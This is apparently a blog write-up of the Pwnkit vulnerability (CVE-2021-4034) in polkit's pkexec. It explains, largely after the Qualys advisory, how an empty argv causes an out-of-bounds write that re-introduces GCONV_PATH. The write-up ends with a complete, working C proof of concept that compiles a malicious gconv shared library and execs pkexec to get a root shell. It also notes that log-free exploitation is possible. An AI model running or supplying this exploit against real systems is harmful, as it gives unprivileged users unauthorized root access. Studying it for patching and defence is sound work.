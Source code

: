 # Pwnkit (CVE-2021-4034)
CVE-2021-4034 dubbed Pwnkit is a pretty cool and easy-to-understand exploit, newbies should understand how the exploit works since it is pretty straightforward. Before anything, know that i am far away from being the first one who make a blog on this CVE and for this reason i highly suggest that you go check [previous research on the vulnerability by Qualys](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt). 
## What is pkexec
First to understand the exploit we have to understand pkexec. As per the man page, pkexec allows an authorized user to execute a program as another user, if no user is specified then the program will be executed as the super user, root.

This vulnerability is an attacker's dream come true:
- pkexec is installed by default on all major Linux distributions (we exploited Ubuntu, Debian, Fedora, CentOS, and other distributions are probably also exploitable);
- pkexec is vulnerable since its creation, in May 2009 (commit c8c3d83, "Add a pkexec(1) command");
- any unprivileged local user can exploit this vulnerability to obtain full root privileges;
- although this vulnerability is technically a memory corruption, it is exploitable instantly, reliably, in an architecture-independent way;
- and it is exploitable even if the polkit daemon itself is not running.

## The vulnerability
Here comes the vulnerable part, the beginning of pkexec's main() function processes the commad-line arguments (line 534-568) and searches for the program to be executes, if its path is not absolute, in the directories of the PATH environment variable (lines 610-640) :
```c
435 main (int argc, char *argv[])
436 {
...
534   for (n = 1; n < (guint) argc; n++)
535     {
...
568     }
...
610   path = g_strdup (argv[n]);
...
629   if (path[0] != '/')
630     {
...
632       s = g_find_program_in_path (path);
...
639       argv[n] = path = s;
640     }
```
Unfortunately, if the number of command-line arguments (argc) is 0 - which means if the argument list argv that we pass to execve() is empty, i.e {NULL} - then `argv[0]` is **NULL**. This is the argument list's terminator. Therefore :
- at line 534, the integer n is permanently set to 1;
- at line 610, the pointer path is read out-of-bounds from `argv[1]`;
- at line 639, the pointer s is written out-of-bounds `argv[1]`.

But what exactly is read from and written to this out-of-bounds `argv[1]` ?

To answer this question, we must digress briefly. When we execve() a ne program, the kernel copies our argument, environment strings, and pointers (argc and envp) to the end of the new program's stack; for example :
```
|---------+---------+-----+------------|---------+---------+-----+------------| 
| argv[0] | argv[1] | ... | argv[argc] | envp[0] | envp[1] | ... | envp[envc] | 
|----|----+----|----+-----+-----|------|----|----+----|----+-----+-----|------| 
V         V                V           V         V                V 
"program" "-option"           NULL      "value" "PATH=name"          NULL 
```
Clearly because the argv and envp pointers are contiguous i memory, if argc is 0, then the out-of-bounds `argv[1]` is actually `envp[0]`, the pointer to our first environment variable, "value". Consequently :
- At line 610, the path of the program to be executed is read out-of-bounds from `argv[1]` (i.e `envp[0]`, and points to "value").
- At line 632, this path "value" is passed to `g_find_program_in_path()` (because "value does not start with a slash", at line 629).
- Then, `g_find_program_in_path()` searches for an executable file named "value" in the directories of our PATH environment variable.
- If such an executable file is found, its full path is returned to pkexec's main() function (at line 632).
- Finally, at line 639, this full path is written out-of-bounds to `argv[1]` (i.e `envp[0]`), thus overwriting our first environment variable.

So stated more precisely :
- If our PATH environment variable is "PATH=name", and if the directory "name" exists (in the current working directory) and contains an executable file named "value", then a pointer to the string "name/value" is written out-of-bounds to `envp[0]`.
OR
- If our PATH is "PATH=name=.", and if the directory "name=." exists and contains an executable file named "value", then a pointer to the string "name=./value" is written out-of-bounds to `envp[0]`.

In other words, this out-of-bounds write allows us to re-introduce an "unsecure" environment variable (for example LD_PRELOAD) into pkexec's environment. These "unsecure" variables are normally removed (by ld.so) from the environment of SUID programs before the main() function is called.

Last-minute note: polkit also supports non-Linux operating systems such as Solaris and \*BSD, but we have not investigated their exploitability. However we note that OpenBSD is not exploitable, because its kernel refuses to execve() a program if argc is 0.

## Exploitation
Our question is : to successfully exploit this vulnerability, which "unsecure" variable should we re-introduce into pkexec's environment? Our options are limited, because shortly after the out-of-bounds write (at line 639), pkexec completely clears its environment (at line 702).
```
------------------------------------------------------------------------
 639       argv[n] = path = s;
 ...
 657   for (n = 0; environment_variables_to_save[n] != NULL; n++)
 658     {
 659       const gchar *key = environment_variables_to_save[n];
 ...
 662       value = g_getenv (key);
 ...
 670       if (!validate_environment_variable (key, value))
 ...
 675     }
 ...
 702   if (clearenv () != 0)
------------------------------------------------------------------------
```
The answer to our question comes from pkexec's complexity: to print an error message to stderr, pkexec calls the GLib's function `g_printerr()` (note: the Glib is a GNOME library, note the GNU C Library, aka glibc); for example, the functions `validate_environment_variable()` and `log_message()` call `g_printerr()` (at lines 126 and 408-409):
```
------------------------------------------------------------------------
  88 log_message (gint     level,
  89              gboolean print_to_stderr,
  90              const    gchar *format,
  91              ...)
  92 {
 ...
 125   if (print_to_stderr)
 126     g_printerr ("%s\n", s);
------------------------------------------------------------------------
 383 validate_environment_variable (const gchar *key,
 384                                const gchar *value)
 385 {
 ...
 406           log_message (LOG_CRIT, TRUE,
 407                        "The value for the SHELL variable was not found the /etc/shells file");
 408           g_printerr ("\n"
 409                       "This incident has been reported.\n");
------------------------------------------------------------------------
```
`g_printerr()` normally prints UTF-8 error messages, but it can print messages in another charset if the environment variable `CHARSET` is not `UTF-8` (note: CHARSET is not security sensitive, it is not an "unsecure" environment variable). To convert messages from UTF-8 to another charset, `g_printerr()` calls the glibc's function from `iconv_open()`.

To convert messages from one charset to another, `iconv_open()` executes small shared libraries; normally, these triplets ("from" charset. "to" charset, and library name) are read from a default configuration file, `/usr/lib/gconv/gconv-modules`. Alternatively, the environment variable `GCONV_PATH` can force `iconv_open()` to read another configuration file; naturaly, `GCONV_PATH` is **one of the "unsecure" environment variables (because it leads to the execution of arbitrary libraries)**, and is therefore removed by `ld.so` from the **environment of SUID programs**.

Unfortunately, CVE-2021-4034 allows us to re-introduce `GCONV_PATH` into pkexec's environment, and to execute our own shared library, as root.

IMPORTANT : *this exploitation technique leaves traces in the logs (either "the value for the SHELL variable was not found in the /etc/shells file" or "the value for environment variable [...] contains suspicious content"). However, please note that this vulnerability is also exploitable without leaving any traces in the logs, but this is left as an exercise for the interested reader.*
## Proof of Concept
The most popular proof of concept for this exploit might be the one available at [this link](https://github.com/arthepsy/CVE-2021-4034) by arthepsy.
```c
/*

* Proof of Concept for PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit’s pkexec (CVE-2021-4034) by Andris Raugulis <moo@arthepsy.eu>

* Advisory: https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034

*/

#include <stdio.h>

#include <stdlib.h>

#include <unistd.h>

char *shell = "#include <stdio.h>\n"
			  "#include <stdlib.h>\n"
			  "#include <unistd.h>\n\n"
			  "void gconv() {}\n"
			  "void gconv_init() {\n"
			  " setuid(0); setgid(0);\n"
			  " seteuid(0); setegid(0);\n"
			  " system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n"
			  " exit(0);\n"
			  "}";

int main(int argc, char *argv[]) {
	FILE *fp;
	system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
	system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
	fp = fopen("pwnkit/pwnkit.c", "w");
	fprintf(fp, "%s", shell);
	fclose(fp);
	system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
	char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
	execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
```
